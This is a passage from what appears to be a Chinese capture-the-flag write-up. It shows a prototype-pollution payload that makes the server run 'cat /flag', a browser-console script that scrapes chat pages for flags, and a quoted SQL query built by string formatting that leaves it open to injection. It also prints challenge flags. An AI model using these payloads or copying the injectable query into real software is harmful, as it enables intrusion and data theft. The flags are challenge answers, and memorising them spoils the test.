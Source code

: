 推测原型链污染

输入 key: `__proto__.t`, value: `cat /flag`
再访问`/execute?cmd=t`

`flag{n0_pr0topOIl_50_U5E_new_Map_1n5teAD_Of_0bject2kv_86e388ff83}`

## PaoluGPT

### 千里挑一

Web的事情就让Web来解决吧~ +1

进入查看聊天记录页面，在浏览器控制台执行：

``` typescript
let links = document.querySelectorAll("a")
for (let i = 0; i < links.length; i++) {
    //遍历所有对话
    if (links[i].href.includes("view")) {
        fetch(links[i].href, {
            method: 'GET',
            headers: {
                'Content-Type': 'text/html',
            }
        })
            .then(response => response.text())
            .then(html => {
                let parser = new DOMParser()
                let doc = parser.parseFromString(html, "text/html")
                let _html = doc.querySelector(".container .pt-3").innerHTML
                //输出包含flag的对话
                if (_html.includes("flag")) {
                    console.log(_html)
                }
            })
            .catch(error => {
                console.log(error)
            })
    }
}
```

稍等一会，得到：

`flag{zU1_xiA0_de_11m_Pa0lule!!!_196f3121f3}`

### 窥视未知

查看Python源码，注意到：

``` Python
results = execute_query("select id, title from messages where shown = true", fetch_all=True)
…
results = execute_query(f"select title, contents from messages where id = '{conversation_id}'")
```
